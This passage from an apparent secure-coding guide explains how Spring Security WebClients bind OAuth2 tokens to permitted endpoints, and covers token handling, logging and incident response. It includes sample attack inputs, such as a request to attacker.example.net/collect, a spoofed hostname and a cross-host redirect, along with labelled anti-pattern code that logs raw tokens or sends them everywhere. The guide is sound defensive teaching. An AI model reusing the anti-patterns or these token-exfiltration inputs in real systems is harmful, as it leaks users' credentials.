In such cases, **never grab another token from a shared cache**. Handle reauthorization/login/consent or return an error per policy. A user's session and an access token's lifecycle are related but not identical.

## 11. Service-Bound WebClient: Client Credentials Tokens Need Dedicated Destinations

### 11.1. Why Separate from User Tokens?

A scheduled job using Client Credentials usually acquires a token for registration `reports-api` and a stable technical principal `reports-batch`. That token represents the **backend service**, not any logged-in user.

Never read a user's `SecurityContextHolder` inside a scheduled job to pick an M2M token. Conversely, never send the Reports API's service token to the Employee API just because a WebClient is shared.

### 11.2. Configuring the Service-Tier Manager

```java
package com.example.portal.security;

import org.springframework.context.annotation.Bean;
import org.springframework.context.annotation.Configuration;
import org.springframework.security.oauth2.client.AuthorizedClientServiceOAuth2AuthorizedClientManager;
import org.springframework.security.oauth2.client.OAuth2AuthorizedClientManager;
import org.springframework.security.oauth2.client.OAuth2AuthorizedClientProvider;
import org.springframework.security.oauth2.client.OAuth2AuthorizedClientProviderBuilder;
import org.springframework.security.oauth2.client.OAuth2AuthorizedClientService;
import org.springframework.security.oauth2.client.registration.ClientRegistrationRepository;

@Configuration
public class ServiceClientManagerConfiguration {

    @Bean("serviceAuthorizedClientManager")
    OAuth2AuthorizedClientManager serviceAuthorizedClientManager(
            ClientRegistrationRepository registrations,
            OAuth2AuthorizedClientService tokenStore) {

        OAuth2AuthorizedClientProvider provider =
                OAuth2AuthorizedClientProviderBuilder.builder()
                    .clientCredentials()
                    .build();

        var manager = new AuthorizedClientServiceOAuth2AuthorizedClientManager(
                registrations,
                tokenStore);
        manager.setAuthorizedClientProvider(provider);

        return manager;
    }
}
```

Nature of the service manager:

- Independent of browser sessions.
- Acquires tokens via the `client_credentials` grant per configured registration.
- Saves/reuses authorized clients under a technical principal.
- Re-acquires tokens per token lifetime/provider config without user logout/login.

### 11.3. Example Explicitly Acquiring a Token and Using a Dedicated WebClient

To cleanly separate user and service security contexts, with Client Credentials you can **call the manager directly** and use a WebClient **without a shared OAuth filter**:

```java
package com.example.portal.reports;

import org.springframework.beans.factory.annotation.Qualifier;
import org.springframework.stereotype.Service;
import org.springframework.security.oauth2.client.OAuth2AuthorizeRequest;
import org.springframework.security.oauth2.client.OAuth2AuthorizedClient;
import org.springframework.security.oauth2.client.OAuth2AuthorizedClientManager;
import org.springframework.web.reactive.function.client.WebClient;
import reactor.core.publisher.Mono;

@Service
public class ReportsApiClient {

    private final OAuth2AuthorizedClientManager manager;
    private final WebClient reportsWebClient;

    public ReportsApiClient(
            @Qualifier("serviceAuthorizedClientManager")
            OAuth2AuthorizedClientManager manager,
            @Qualifier("reportsApiWebClient")
            WebClient reportsWebClient) {

        this.manager = manager;
        this.reportsWebClient = reportsWebClient;
    }

    public Mono<String> dailySummary() {
        // This is a synchronous service-tier manager; for illustration, authorize
        // runs before building the outbound Mono.
        OAuth2AuthorizeRequest authorizationRequest =
                OAuth2AuthorizeRequest
                    .withClientRegistrationId("reports-api")
                    .principal("reports-batch")
                    .build();

        OAuth2AuthorizedClient client =
                manager.authorize(authorizationRequest);

        if (client == null) {
            return Mono.error(new IllegalStateException(
                    "Cannot authorize reports-api client"));
        }

        return reportsWebClient.get()
                .uri("/v1/reports/daily")
                .headers(headers -> headers.setBearerAuth(
                        client.getAccessToken().getTokenValue()))
                .retrieve()
                .bodyToMono(String.class);
    }
}
```

Configure `reportsApiWebClient` with a **controlled base URL** and a dedicated **destination guard**:

```java
@Bean("reportsApiWebClient")
WebClient reportsApiWebClient(WebClient.Builder builder) {
    return builder.clone()
            .baseUrl("https://reports-api.example.com")
            .filter(AllowedDestinationFilters.exactHttpsOrigin(
                    "reports-api.example.com"))
            .build();
}
```

Important notes on the code:

- `manager.authorize(...)` and JDBC repositories are **blocking/synchronous**. If the service runs inside a fully reactive application, avoid blocking the event loop by using a reactive OAuth2 Client manager or offloading blocking work appropriately. Here the context is **Servlet/MVC** and service-tier.
- WebClient has no OAuth filter in this M2M example; the header is set explicitly after the manager resolves the token.
- `reportsApiWebClient` still needs a destination guard, because manually setting Bearer tokens also risks token leakage if the URL is altered.
- If auto-redirect is enabled on the connector, apply dedicated policies as in section 8.
- Return only business data; **never return raw tokens to the browser**.
- User logins/logouts do not affect the `reports-batch` principal.

### 11.4. Why Not Let Client Credentials Tokens “Inherit” User Authorization?

An M2M token with scope `reports.read` may grant the backend system-wide read access, yet a user with only `ROLE_EMPLOYEE` is not automatically allowed to view all reports.

Before a controller calls `ReportsApiClient`:

```text
Inbound browser request
        |
        v
User's Spring Security authentication
        |
        v
Check roles/tenant and report-viewing permissions
        |
        +-- Unauthorized -> 403, do not call Reports API
        |
        v
Backend selects reports-api M2M token
        |
        v
Call Reports API and filter data per user's permissions
```

This prevents **confused deputy** vulnerabilities: a privileged backend must never turn an unprivileged user's request into a privileged action.

## 12. Multi-Provider and Multi-Tenant: Binding Registrations to Destinations

### 12.1. One Registration Should Not Be Used Across Uncontrolled APIs

Suppose:

| Registration | Subject | Permitted Destination | Example Scope |
|---|---|---|---|
| `employee-oidc` | OIDC user | `employee-api.example.com` | `employee.read` |
| `reports-api` | Service `reports-batch` | `reports-api.example.com` | `reports.read` |
| `partner-oidc` | Partner user | `partner-api.example.net` | `partner.read` |

The application should maintain an equivalent **policy/allowlist table** governing business-level selection. Never let client code arbitrarily mix and match:

```text
token(registration=employee-oidc)
  + target=https://reports-api.example.com
```

or:

```text
token(registration=reports-api)
  + target=https://partner-api.example.net
```

just because all those hosts appear to belong to trusted partners.

### 12.2. Relationships Must Be Determined Before Sending the Request



Key takeaway: **registration, principal, and destination are all derived from application policy**, not from a raw `String → String` map populated by query parameters.

### 12.3. Tenants Must Be Verified Before Selecting Endpoints

Suppose a user is authorized for tenant `north` but not `south`. If a controller accepts `tenant=south` and switches to `south-oidc` and `https://south-api.example.com` without checking membership, the backend could use an authorized client outside the caller's permissions.

Proper flow:

1. Authenticate the user.
2. Verify the user is permitted to act on that tenant.
3. Look up tenant configuration → allowed API destination + registration.
4. Select the right principal key and token store.
5. Send the token only to the permitted endpoint.
6. The Resource Server still validates the token, tenant, and scopes.

**Never let query parameters choose `token_uri`, `issuer_uri`, `client_secret`, or `principalName`**. Those are security configuration or verified identity data.

### 12.4. Principal Names and Issuer Collisions

An OIDC `sub` is normally unique **within an issuer**. If an application integrates multiple issuers without namespacing authorized client keys properly, two different users can collide on principal name.

Solutions may include:

- Separating registrations per issuer/tenant.
- Using a stable issuer-namespaced principal naming strategy consistently across both login and token store.
- Implementing a custom authorized client repository with an explicit tenant dimension if the architecture demands it.
- Testing migrations whenever changing principal names or registration IDs.

Never add a tenant prefix inside one API method while ignoring how authorized clients are saved during the login callback.

## 13. Authorization Headers and Token Types: Do Not Swap Roles

### 13.1. Access Token vs. ID Token

OIDC Login can return:

- **ID Token**: authenticates user identity to the OIDC Client.
- **Access token**: accesses Resource Servers matching the grant/scopes.
- **Refresh token**: requests new access tokens at the Token Endpoint when issued.

WebClient calling the Employee API typically sends:

```http
Authorization: Bearer <access-token>
```

**Never use an ID Token instead of an access token** in outbound API requests just because an ID Token is also a JWT. The Resource Server must receive the exact token type and audience specified in the contract.

### 13.2. Never Put Tokens in URLs

Anti-pattern:

```http
GET /v1/me?access_token=<sensitive-value> HTTP/1.1
Host: employee-api.example.com
```

URLs can be recorded in logs, proxies, browser history, monitoring tools, or referer headers depending on the environment. Send Bearer tokens in the `Authorization` header over TLS and follow API contracts. Never stick tokens into query parameters/paths to work around a misconfigured gateway.

### 13.3. Never Attach Tokens to Static Resources or Public APIs

An HTTP call like:

```text
GET https://cdn.example.net/public/logo.svg
```

does not need an OIDC user access token. Use a **WebClient without an OAuth filter** for public resources rather than sharing a default WebClient that always sends tokens. If a resource genuinely requires a signed URL or separate auth, follow that contract—never send another API's OAuth2 access token by mistake.

## 14. Limiting Impact If a Token Has Been Exposed

### 14.1. Least-Privilege Scopes and Audiences

A token with narrow scopes and audience reduces blast radius if leaked, yet does not make sending tokens to the wrong host acceptable.

Example:

```text
token A:
  audience = employee-api
  scope    = employee.read

token B:
  audience = reports-api
  scope    = reports.read
```

If token A is mistakenly sent to an attacker, the attacker may be unable to call the Reports API with token A, yet **can still try calling the Employee API** or exploit a Resource Server with weak audience checks. Prevent token leakage on the **client**, while ensuring APIs thoroughly validate tokens.

### 14.2. Short Token Lifetimes and Secure Refresh Tokens

- Use access token lifetimes suited to business needs.
- Protect refresh tokens inside the backend authorized client store; never expose them to the browser or ordinary outbound APIs.
- Plan token revocation/recovery procedures if token compromise is suspected.
- Never treat short access token expiration as a substitute for destination validation.
- Consider sender-constrained tokens when supported by the Authorization Server and Resource Server (such as mTLS or DPoP in compatible architectures), while still controlling where tokens are sent and how keys are handled.

### 14.3. When You Detect a Token Was Sent to the Wrong Endpoint

Incident response steps may include:

1. Halt the faulty outbound call and disable the feature/route causing credential forwarding.
2. Identify the registration, principal type, Resource Server, and endpoint that received the token, **without disclosing the token value**.
3. Assess the exposed token, its privilege/scope level, and remaining lifetime.
4. Revoke related tokens or credentials at the Authorization Server if supported and necessary.
5. Determine whether refresh tokens or client secrets were exposed; ordinary outbound Bearer calls should never contain them.
6. Audit logs, traces, proxies, dashboards, and receiving systems.
7. Fix the allowlist/filter/URL handling and tighten egress policies.
8. Follow incident notification/response procedures per severity and organizational data policies.

**Never paste raw tokens into tickets, chat, or incident investigation logs.** Use correlation IDs, timestamps, registrations, and sanitized metadata.

## 15. Classifying Errors at the Token Endpoint and Resource Server

A WebClient with an OAuth filter typically interacts indirectly with two kinds of endpoints:

1. **Token Endpoint**: the manager obtains/refreshes access tokens from the Authorization Server.
2. **Resource Server Endpoint**: WebClient sends business HTTP requests with the Bearer token.

| Scenario | Stage | Analysis Direction |
|---|---|---|
| `invalid_client` | Token Endpoint | Client ID/secret or client authentication method |
| `invalid_grant` | Token Endpoint | Code/refresh token expired, already used, or rotation |
| `unauthorized_client` | Token Endpoint | Client not permitted for the corresponding grant |
| `invalid_scope` | Token Endpoint | Scope not permitted by the Authorization Server |
| Token endpoint timeout | Token Endpoint | Network/OP availability; retry per grant rules |
| API returns `401 invalid_token` | Resource Server | Token expired/revoked, wrong audience/issuer, wrong token type |
| API returns `403 insufficient_scope` | Resource Server | Valid token lacking required permissions |
| API returns `302 Location=other host` | Resource Server/HTTP layer | Redirect policy; block credential forwarding |
| Blocked by destination guard | Before OAuth filter | URI outside origin allowlist |
| API returns `404` | Resource Server | Missing route/resource; do not assume token error |
| API returns `429` or `5xx` | Resource Server | Rate limit/upstream outage; bounded retries |

**Never resolve a 401 by automatically trying a token from another registration**, as that risks sending tokens to the wrong target, violating authorization, and masking misconfigurations.

### 15.1. Resource Server 401 vs. OAuth2 Login Failure

If the Employee Portal already logged the user in successfully, yet the Employee API returns 401:

- The user's session in the Portal may still be valid.
- The API's access token may have expired or been revoked.
- Refresh/re-authorization may be required per policy.
- Do not unconditionally log out the browser user or re-run OIDC login if the root cause is an API audience mismatch.
- Never remove the destination allowlist just to “try a new host”.

### 15.2. Resource Server 403 Usually Needs Permission Fixes, Not Retries

A token with `scope=employee.read` is insufficient for `/admin/export`. Getting a 403 should prompt reviewing scopes, consent, and policies—never **switching the principal to admin** or acquiring a broad-scoped M2M token to call on the user's behalf.

### 15.3. Authorization Failure Handlers Do Not Guarantee Recovery from Every HTTP Error

Spring Security provides `RemoveAuthorizedClientOAuth2AuthorizationFailureHandler` or matching WebClient OAuth2 failure handling in certain configurations to purge invalid tokens from the store.

Keep in mind:

- Applies only to errors recognized by the handler/provider logic.
- Deleting a local token **does not revoke** the token at the Authorization Server.
- Does not guarantee every 401/403 automatically retries the same request.
- Does not fix wrong issuer/audience/scope by requesting a new token with the exact same configuration.
- Never switches to another user's token to keep the API call going.

When handling these errors, operate on the exact repository/service and keep the same registration/principal key as the stored authorized client.

## 16. Observing the System Without Writing Bearer Tokens to Logs

### 16.1. Where Tokens Can Leak

Even when WebClient sends only to allowed hosts, tokens can leak through:

- HTTP request wiretaps/tracing.
- Reactor Netty debug logging.
- Proxy/sidecar/gateway logs.
- Application logs dumping all headers.
- APM spans/attributes.
- Error reports containing raw request/response objects.
- SQL parameter logs when tokens are persisted by the authorized client service.
- Unit/integration test artifacts or developer console screenshots.

**Never enable full `Authorization` header logging in production.** Masking must apply across every logging layer, not only in controllers.

### 16.2. Safe Observable Fields

```text
outbound_request
  api=employee-api
  registration_id=employee-oidc
  principal_type=interactive_user
  destination_allowed=true
  status=200

outbound_request_blocked
  api=employee-api
  registration_id=employee-oidc
  reason=destination_not_allowlisted

oauth2_authorized_client
  registration_id=reports-api
  principal_type=service
  operation=client_credentials
  result=success
```

This is a suggested format, **not built-in automatic metrics/logs**. You can emit metrics with Micrometer/OpenTelemetry and configure tracing redaction per policy.

Never log:

- `access_token`, `refresh_token`, ID Token.
- `Authorization: Bearer ...`.
- Client secrets, private keys, client assertions.
- Authorization codes, PKCE code verifiers, OIDC nonces.
- Specific emails/`sub`/`principalName` in high-cardinality metric labels involving personal data.
- URL queries containing unfiltered input/secrets.

### 16.3. Count Requests Blocked by Guards Too

A destination guard can record a metric when blocking a request:

```text
oauth2.outbound.denied.count
  client=employee-api
  reason=host_mismatch
```

Constrain metric labels so attacker-supplied hostnames never create millions of tag values. Instead of logging full raw URLs, log the **violation category**, configured client name, and appropriate correlation ID.

A sudden spike in blocked requests may indicate a URI construction bug or an active SSRF/token-leak probe.

## 17. Practice Scenarios: What Must Be Allowed and What Must Be Blocked?

The following cases describe **expected behavior by design**, not observed runs on a live system. They illustrate why **obtaining the right token** and **sending to the right endpoint** are two independent requirements.

### 17.1. Case A — User A Calls the Right Employee API

```text
Inbound:
  GET /employee/profile
  Authentication: employee-4821

Outbound:
  GET https://employee-api.example.com/v1/employees/me
  OAuth registration: employee-oidc
  Authorized client: (employee-oidc, employee-4821)

Expected:
  Destination guard permits the configured HTTPS host.
  OAuth filter loads access token for the right principal.
  Resource Server validates token and returns data per permissions.
```

**Never** turn Employee API into `/v1/employees/{arbitraryId}` without verifying user A is permitted to view that ID.

### 17.2. Case B — User A Attempts to Pass an Attacker-Controlled URL

```text
Input:
  targetUrl=https://attacker.example.net/collect

WebClient:
  employeeApiWebClient + destination guard

Expected:
  WebClient request is rejected before OAuth filter/HTTP send.
  No Bearer token is sent to attacker.example.net.
```

If requests still reach another host, check whether code used **a different WebClient bean without the guard**, or if the URI followed a redirect/proxy outside the filter's view.

### 17.3. Case C — Passing an Absolute URI Despite `baseUrl`

```text
Configured baseUrl:
  https://employee-api.example.com

Call:
  .uri("https://untrusted.example.net/a")

Expected:
  Guard inspects the effective request URL and rejects it.
```

This proves **`baseUrl` does not replace an allowlist**.

### 17.4. Case D — Plaintext HTTP Rejected

```text
Call:
  http://employee-api.example.com/v1/me

Expected:
  Guard rejects because scheme is not HTTPS.
  No Bearer token is sent over plaintext HTTP.
```

If a local test API needs HTTP, never widen the production allowlist to allow HTTP hosts. Use a strictly scoped local profile without production tokens.

### 17.5. Case E — Hostname Spoofed with a Suffix

```text
Call:
  https://employee-api.example.com.attacker.net/collect

Expected:
  Exact-host check rejects.
```

Checking `String.contains("employee-api.example.com")` would fail here because the hostname contains the trusted substring without being the trusted host.

### 17.6. Case F — Server Returns 302 to Another Host

```text
Initial:
  https://employee-api.example.com/v1/me

Response:
  HTTP 302
  Location: https://untrusted.example.net/collect

Expected:
  Connector for Bearer tokens does not automatically follow
  a redirect to a host outside policy.
  Never copy the Authorization header to the new origin.
```

Note that **an `ExchangeFilterFunction` checking the initial URI does not automatically intercept internal connector redirects**. Configure redirect handling at the HTTP connector layer.

### 17.7. Case G — Same Host, Yet Admin Route

```text
Call:
  https://employee-api.example.com/v1/admin/export-all

Origin:
  Matches employee-api.example.com.

Business policy:
  Allows only /v1/employees/me.

Expected:
  Application-level route policy blocks this use case.
  Resource Server also enforces its own authorization.
```

An origin allowlist stops **wrong recipients at the host level**, not route-level permission abuse.

### 17.8. Case H — User B Arrives Immediately After User A

```text
User A:
  principalName=employee-4821
  token=TokenA

User B:
  principalName=employee-9274
  token=TokenB

Expected:
  WebClient bean can be shared.
  Yet filter/manager resolves tokens per request context.
  Never store TokenA in a singleton field to reuse for B.
```

### 17.9. Case I — Scheduled Job Needs the Reports API

```text
Scheduler:
  No Servlet user session.

Outbound:
  https://reports-api.example.com/v1/reports/daily
  registration=reports-api
  principal=reports-batch
  grant=client_credentials

Expected:
  Uses service-tier manager.
  Never grabs the last logged-in user's OIDC token.
  Never sends token to the Employee API.
```

### 17.10. Case J — Reports API Returns 403

```text
Request:
  Reports API /v1/reports/admin

Token:
  scope=reports.read

Response:
  HTTP 403 insufficient_scope

Expected:
  Never try an admin token or another user's token.
  Verify scope/permissions and route contract.
```

### 17.11. Case K — Valid Token Yet API Returns 401 Due to Audience

```text
Token:
  iss=company-idp
  aud=employee-api

Destination:
  reports-api.example.com

Response:
  HTTP 401 invalid_token

Expected:
  Fix registration/destination mapping.
  Never retry infinitely with the same token.
```

### 17.12. Case L — Public CDN Called from a WebClient with Default Tokens

```text
Call:
  GET https://public-cdn.example.net/logo.svg

Wrong configuration:
  setDefaultOAuth2AuthorizedClient(true) on shared WebClient

Expected design:
  Use PublicWebClient without an OAuth filter.
  Never send user tokens to the CDN.
```

### 17.13. Case M — Valid Destination Host Yet Misconfigured DNS/Proxy

```text
Application:
  URI = https://employee-api.example.com
  Guard host check = allowed

Infrastructure:
  Proxy/DNS routes traffic to the wrong system.

Expected:
  Network policy/TLS/host verification blocks the bad connection
  or fails the request; never disable TLS verification.
```

This is why **application allowlists must be paired with egress/TLS infrastructure controls**.

### 17.14. Case N — User Logs Out After Token Was Saved

```text
User:
  Logs out of local session.

Store:
  Authorized client may still remain in JDBC per policy.

New browser request:
  Anonymous/unprivileged.

Expected:
  Never use the remaining token row to auto-authenticate the user.
  Controller must still require valid Authentication/authorization.
```

Token persistence and session authentication are distinct. If a service acts proactively on a user's behalf outside a request, separate consent and retention policies apply.

### 17.15. Case O — Request Fails and Needs Retry

```text
POST /v1/reports/create
Authorization: Bearer <service-token>

Network:
  Times out after the API may have already processed the request.

Expected:
  Never retry blindly just because of an HTTP error.
  Use the API's idempotency key/transaction semantics.
  Never send the token to a non-allowlisted fallback host.
```

## 18. Code Anti-Patterns to Avoid

### 18.1. Default User Token on a WebClient Used for All HTTP Calls

```java
// ANTI-PATTERN
var oauth2 = new ServletOAuth2AuthorizedClientExchangeFilterFunction(manager);
oauth2.setDefaultOAuth2AuthorizedClient(true);

WebClient everythingClient = WebClient.builder()
        .apply(oauth2.oauth2Configuration())
        .build();
```

If `everythingClient` is used to call arbitrary APIs, tokens can be attached to unintended requests.

**Replace with:** dedicated WebClients + explicit request attributes + URI guards.

### 18.2. Treating `baseUrl` as an Allowlist

```java
// ANTI-PATTERN
WebClient client = WebClient.builder()
        .baseUrl("https://employee-api.example.com")
        .build();

// Absolute URL can override baseUrl.
client.get().uri(userProvidedUrl);
```

**Replace with:** exposing only typed API methods, verifying scheme/host/port on the final request URL, and never accepting arbitrary URLs from users.

### 18.3. Letting the Browser Choose the Token Store Principal

```java
// ANTI-PATTERN: missing user authorization before choosing token.
OAuth2AuthorizeRequest request = OAuth2AuthorizeRequest
        .withClientRegistrationId(userProvidedRegistration)
        .principal(userProvidedPrincipal)
        .build();
```

**Replace with:** business-scoped registration allowlists and principals from verified Authentication or managed service identities.

### 18.4. Disabling TLS Verification to Fix Connection Errors

```text
SSL handshake error
   -> "Trust all certificates"    [DO NOT DO THIS]
```

**Replace with:** fixing the trust store, certificate chain, hostname, proxy, or CA per system requirements. TLS hostname verification is a key defense against sending tokens to impostor servers.

### 18.5. Automatically Copying the `Authorization` Header When Following Redirects

```text
API A -> 302 Location: API B
Client -> keeps A's Bearer token and sends it to B   [DANGEROUS]
```

**Replace with:** disabling auto-redirects or re-validating the new destination against policy and issuing only appropriate credentials when the destination is genuinely permitted.

### 18.6. “Fixing” 403 with a Broader-Privilege Service Account Token

```text
User token -> API 403
Fallback -> reports-admin M2M token  [DANGEROUS]
```

**Replace with:** checking user permissions, scopes, and API contracts; never bypassing delegated authorization.

### 18.7. Logging Tokens to “Debug” an Interceptor

```java
// ANTI-PATTERN
log.info("accessToken={}",
        authorizedClient.getAccessToken().getTokenValue());
```

**Replace with:** logging registration ID, principal type, destination policy, HTTP status, latency, and controlled correlation IDs.

## 19. Decision Table When Designing OAuth2 WebClients

| Requirement | Design Approach |
|---|---|
| Calling only one known user API | Dedicated WebClient, fixed `baseUrl`, origin guard, explicit registration |
| Calling public APIs needing no OAuth | Separate WebClient **with no OAuth filter** |
| Scheduled job calling M2M API | Client Credentials registration, service-tier manager, technical principal, fixed destination |
| Browser user calling API on their own behalf | Servlet manager, trusted user Authentication, authorized client for same principal |
| Multiple APIs with different hosts/audiences | Separate registrations and WebClients by destination/trust boundary |
| Dynamic tenant | Verify membership first, map tenant → allowed registration + endpoint |
| User supplies generic URL | Never use OAuth WebClient to fetch arbitrary URLs; revisit SSRF design |
| Upstream uses redirects | Configure connector not to auto-follow or re-check each target; never forward Bearer cross-origin |
| User-provided path variables | Encode path segments, check permissions on resource ID, never forward raw paths |
| HTTP 401 from API | Check issuer/audience/expiry/revocation, token invalidation/re-auth policy |
| HTTP 403 from API | Check scopes/permissions; never try another privileged token |
| Retaining tokens across requests | Authorized client repository/service/manager; never cache raw tokens in singletons |
| Error observability | Token-masked metrics/logs, categorized by stage and registration |
| Proxies/DNS/service mesh present | Egress controls + TLS hostname validation + app allowlist |
| Needing tokens for a new endpoint | Re-evaluate registration, audience, scopes, and trust boundary before allowlisting |

## 20. Diagnostic Guide When Suspecting Token Leakage or Wrong Endpoint Selection

### 20.1. Analysis Flow

```text
An outbound WebClient call needs a Bearer token
      |
      v
Is the endpoint controlled by the app or supplied by a user/provider?
      |
      +-- Arbitrary user input -> DO NOT send token; block/redesign
      |
      v
Does the built URI match HTTPS, exact host, port, and route?
      |
      +-- No -> Destination guard blocks before OAuth filter
      |
      v
Does the HTTP connector auto-follow redirects?
      |
      +-- Yes -> block cross-origin, never forward tokens arbitrarily
      |
      v
Does the registration match the API/audience and grant?
      |
      +-- No -> fix ClientRegistration / routing
      |
      v
Is the principal from an authenticated source?
      |
      +-- No -> block, never accept arbitrary principal strings
      |
      v
Is the caller permitted to perform the business operation?
      |
      +-- No -> 403 in the app, do not call API
      |
      v
Manager retrieves authorized client for the right registration/principal
      |
      +-- Missing -> consent/client_credentials/refresh per flow
      |
      v
Bearer token sent to allowlisted destination
      |
      +-- API 401 -> token validity/issuer/audience/revocation
      |
      +-- API 403 -> scope/business authorization
      |
      +-- API 302 -> redirect policy, never send token to other hosts
      |
      +-- API 429/5xx -> bounded retry/backoff
      |
      v
Return business data within user's permitted scope
```

### 20.2. Common Symptoms and Root Causes

| Symptom | Possible Cause | Fix |
|---|---|---|
| Public API receives user Bearer token | `setDefaultOAuth2AuthorizedClient(true)` on shared WebClient | Remove broad default; split clients |
| Company token sent to partner host | Registration and destination not bound together | Per-API WebClient + policy mapping |
| Guard fails to block absolute URI | Guard not wired to the right bean or wrong filter order | Ensure guard runs ahead of OAuth filter |
| Guard blocks other hosts yet token still follows 302 | HTTP connector auto-follows redirects | Disable/control redirects on connector |
| Token reaches internal IP via allowed hostname | DNS/proxy/egress misconfiguration | Network policy + TLS + DNS controls |
| User A's token appears in User B's request | Singleton token cache or principal taken from wrong source | Per-request Authentication and manager |
| `oauth2Login` succeeds yet API 401s | Access token has wrong audience/scope/issuer or was revoked | Check Resource Server contract |
| API 403s when using Client Credentials | Insufficient scope/authority | Check client registration and API policy |
| Worker has no SecurityContext yet uses Servlet manager | Wrong execution context | Service-tier manager |
| Client fetches new tokens constantly | Unstable principal, wiped cache, or wrong clock skew | Check keys, expiry, manager |
| Token leaked in APM | Traces capture headers/request attributes | Redact and limit capture |
| Right host yet wrong route | Origin allowlist too broad for sensitive API | Typed API methods + route permissions |
| User can pick which user ID to call API for | Missing object-level authorization | Enforce per-resource permissions |
| Repeated 401 after deleting local token | Wrong registration/issuer/audience | Fix token policy; do not retry infinitely |
| TLS certificate error | Wrong trust store or endpoint | Fix TLS; never disable certificate validation |
| API data returned to wrong tenant | Backend skipped tenant check before using service token | Enforce tenant authorization and filtering |
| Token leaks via URL params | App puts token into query string | Use only Authorization header over TLS |

## 21. Frequently Asked Questions

### 21.1. Is setting a fixed `baseUrl` enough to stop tokens from going to other hosts?

**No.** A request can pass an absolute URI and bypass `baseUrl`. Constrain URLs at the API layer and/or via a destination guard checking the final URI, together with redirect policies on the HTTP connector.

### 21.2. Why is `setDefaultOAuth2AuthorizedClient(true)` dangerous?

It can select the current user's authorized client by default for **every outbound request through that WebClient**, including requests needing no OAuth. If the client serves multiple APIs/hosts, tokens can be sent to the wrong target.

### 21.3. Should you use `setDefaultClientRegistrationId("reports-api")`?

Only when the WebClient is dedicated to a single Resource Server/trust boundary, callers cannot pivot outside the allowlisted host, and policies are clear. For multi-purpose WebClients, use `clientRegistrationId(...)` explicitly.

### 21.4. What if a token issued for the Employee API audience is sent to another host?

It is still a **credential disclosure incident**. Audience reduces the chance another API accepts the token, yet does not stop an attacker from replaying it against the Employee API or reading information from the token.

### 21.5. Does `ServletOAuth2AuthorizedClientExchangeFilterFunction` prevent SSRF on its own?

**No.** It helps acquire and attach OAuth2 tokens. Destination validation, URL construction, redirect handling, and egress policies are the application's and infrastructure's responsibility.

### 21.6. Should you pass `oauth2AuthorizedClient(...)` directly?

Yes, when the object was resolved from a trusted source for **the right user, registration, and API**. Never accept arbitrary authorized clients from the browser or reuse another user's token.

### 21.7. Is a singleton WebClient bean safe across multiple users?

It can be safe when **principals/tokens are resolved per request** via the proper manager/filter. It becomes dangerous if raw access tokens or a previous user's Authentication are stored in shared mutable fields.

### 21.8. When WebClient uses Reactor Netty, is auto-redirect enabled by default?

Never rely on version/runtime default assumptions. For HTTP clients carrying Bearer tokens, **configure redirect policies explicitly** and verify the actual connector in use. For example, `followRedirect(false)` expresses a policy not to follow redirects automatically.

### 21.9. If a destination guard already sits ahead of the OAuth filter, is an egress firewall still needed?

**Yes, when architecture calls for defense-in-depth.** A guard may not see internal redirects handled by connectors/proxies or hostnames whose DNS maps unexpectedly. Network egress and TLS reduce misconfiguration and SSRF risks.

### 21.10. Can an ID Token be used instead of an access token for APIs?

Not by default. ID Tokens are for the OIDC Client to verify identity, while Resource Servers accept matching access tokens per API contract. Never swap token types just to get past a 401.

### 21.11. If an API returns 403, should you fall back to a higher-privilege service account token?

Not automatically. Doing so can bypass user authorization. Check the Resource Server's policy and caller's permissions; use M2M tokens only when clearly designed in the business architecture with separate user permission checks.

### 21.12. If a user logs out while the authorized client remains in JDBC, can it still be used?

Local logout does not automatically delete or revoke every token. However, **a new request without a valid Authentication must never use a user's token simply because a row remains in the database**. Background delegated jobs require independent consent/retention and authorization policies.

### 21.13. Can you use a hostname suffix allowlist like `*.example.com`?

It can work in some architectures, yet is riskier than an **exact-host allowlist** because different subdomains may have different owners or trust boundaries. If wildcards are unavoidable, enforce per-subdomain authorization, prevent suffix tricks, and control DNS/TLS/egress. Never treat every subdomain as equally trusted.

### 21.14. Does matching the hostname mean every path is allowed to receive the token?

No. An origin allowlist enforces host boundaries. Sensitive routes on the same host still require route/method policies and Resource Server authorization. Prefer typed API methods over arbitrary path forwarding.

### 21.15. Should you log URLs blocked by the guard for debugging?

You can log the **violation category and correlation ID**, yet avoid logging full URL queries containing personal data or secrets. Never put attacker-supplied hostnames verbatim into unbounded-cardinality metric labels.

### 21.16. Should you write a custom WebClient filter that fetches tokens manually?

Normally you should use Spring Security's built-in OAuth2 Client Manager/filter to manage the token lifecycle. If custom integration is truly required, ensure proper registration/principal selection, token refresh, failure handling, host allowlists, and zero token logging. Building a filter that attaches tokens regardless of destination is an anti-pattern.

## 22. Summary

In **Spring Security OAuth 2.0 OIDC Client** running on **Servlet/MVC**, `WebClient` can use `ServletOAuth2AuthorizedClientExchangeFilterFunction` to obtain and attach Bearer access tokens. Yet **having the right token at the right time is not enough** if the HTTP request leaves the permitted endpoints.

Principles to remember:

1. **Never use an OAuth2 WebClient as a generic HTTP proxy** taking arbitrary URLs from the browser.
2. **Never enable default authorized clients/tokens on multi-purpose WebClients**. Be especially cautious with `setDefaultOAuth2AuthorizedClient(true)` and `setDefaultClientRegistrationId(...)`.
3. **Select tokens explicitly per request** where appropriate using `clientRegistrationId(...)` or `oauth2AuthorizedClient(...)` from trusted sources.
4. **Separate WebClients by API/trust boundary**, with fixed base URLs, destination guards, and clear service methods.
5. **Verify HTTPS scheme, exact host, port, and route** before the OAuth filter attaches a token; never trust `baseUrl` alone or simple substring host checks.
6. **Control redirects at the HTTP connector**: never auto-follow cross-origin redirects or copy `Authorization` to another host.
7. **Combine egress policies, DNS/TLS, and Resource Server validation**; a single filter in code cannot replace every defense layer.
8. **Distinguish user tokens from service tokens**, keeping principals/registrations accurate and checking user permissions before the backend exercises M2M authority.
9. **Never log, expose, or put tokens in URLs**. Handle suspected token exposure with revocation, rotation, and incident response per policy.
10. **Handle 401/403 errors properly** without escalating to higher-privilege tokens or retrying infinitely.

WebClient pattern with **explicit** registration selection after constraining the destination:

```java
employeeApiWebClient.get()
        .uri("/v1/employees/me")
        .attributes(clientRegistrationId("employee-oidc"))
        .retrieve()
        .bodyToMono(String.class);
```

Here `employeeApiWebClient` must be configured specifically for the **Employee API**, with its destination guard and OAuth filter in the right order, and the user must hold valid Authentication and permissions.

**Conclusion:** Tokens must never travel to any arbitrary URI the application knows how to call. Make **“Which Resource Server may receive which token?”** an explicit decision in your architecture, configuration, and API methods rather than an accidental side effect of a shared HTTP client.

### References

- [Spring Security — OAuth2 Client: Authorized Clients (Servlet)](https://docs.spring.io/spring-security/reference/servlet/oauth2/client/authorized-clients.html)
